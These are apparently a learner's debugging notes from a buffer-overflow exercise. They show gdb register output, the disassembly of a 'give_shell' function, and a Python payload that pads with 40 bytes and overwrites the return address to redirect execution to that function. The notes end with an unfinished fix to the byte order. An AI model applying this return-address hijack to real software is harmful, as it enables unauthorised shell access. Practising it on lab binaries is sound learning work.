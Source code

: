 ```
r12            0x0                 0
r13            0x7fffffffdf18      140737488346904
r14            0x0                 0
r15            0x7ffff7ffd000      140737354125312
rip            0x4746454443        0x4746454443
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) 

```
So it's holding the last five in little-endian, which makes sense


Here's wher `give_shell` is in memory:
```
Dump of assembler code for function give_shell:
   0x000000000040069d <+0>:     push   %rbp
   0x000000000040069e <+1>:     mov    %rsp,%rbp
   0x00000000004006a1 <+4>:     mov    $0x4007a4,%edi
   0x00000000004006a6 <+9>:     mov    $0x0,%eax
   0x00000000004006ab <+14>:    call   0x400550 <system@plt>
   0x00000000004006b0 <+19>:    pop    %rbp
   0x00000000004006b1 <+20>:    ret
```

`40069d`
Will be split into
```
40069d
40 06 9d
Padd with 0's
00 00 40 06 9d
reverse
9d 06 40 00 00
encode as bytes?
```


Rerun shows 16 is the sweet spot, which does seem more logical
Seems like RIP is gonna hold 6 total "A's"

So if it's 48 A's (I liked I think it's 47 after double checking)

Now it seems like it's just not seeing the bytes as bytes instead of chars:
`b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00@\x06\x9d'`
This is how it see's my payload


Okay, I managed to jank a payload together that changed something (yay!)
```python
base = b"".join([struct.pack("B", 0x41) for i in range(0,40)])
data = b"".join([struct.pack("B", 0x00), struct.pack("B", 0x00), struct.pack("B", 0x40), struct.pack("B", 0x06), struct.pack("B", 0x9d)])
payload = base + data
```
got me
```
rip            0x9d06400000        0x9d06400000
```
But oh damn, I think my little encoding is backwards
Oh I just deadass didn't reverse it, that's why
